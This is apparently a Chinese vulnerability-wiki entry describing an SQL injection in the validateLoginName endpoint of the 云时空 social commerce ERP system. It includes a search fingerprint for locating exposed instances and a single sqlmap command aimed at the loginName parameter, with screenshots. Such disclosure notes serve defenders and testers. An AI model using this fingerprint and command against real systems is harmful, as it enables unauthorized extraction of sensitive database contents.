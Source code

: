 # 云时空 社会化商业ERP系统 validateLoginName SQL注入漏洞

## 漏洞描述

云时空 社会化商业ERP系统存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>云时空 社会化商业ERP系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="云时空社会化商业ERP"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1630040977210-31a0a314-667a-4cbe-9a9b-dce153582ee0-20220313155426852.png)

使用SQLmap验证漏洞

```python
sqlmap -u "http://xxx.xxx.xxx.xxx/sys/user/validateLoginName?loginName=admin"
```

![img](/assets/PeiQi-Wiki/img/1630041138096-be221d73-c3e6-44b8-b0e8-71a999cb58f7.png)